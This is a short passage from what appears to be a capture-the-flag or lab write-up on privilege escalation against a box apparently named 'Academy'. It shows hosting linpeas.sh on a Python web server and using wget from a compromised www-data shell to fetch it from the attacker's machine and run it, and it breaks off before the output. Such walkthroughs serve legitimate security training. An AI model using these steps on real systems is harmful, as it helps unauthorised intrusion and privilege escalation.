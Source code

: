 # Privilege escalation
We are now going to upload linpeas.sh to check if it can help us to find a way to escalate privileges.</br>
First start a python webserver on port 80.
```
python3 -m http.server 80
```
On www-data user in your machine, navigate to tmp directory and type
```
wget http://IP_of_your_machine:80/linpeas.sh
```
The script is now on the remote machine change its permission and execute it.

<img alt="" class="bg hc hd c" width="1000" height="450" loading="lazy" role="presentation" src="https://i.ibb.co/rQWqcWf/Academy-8.png"></img>

The output is as follows
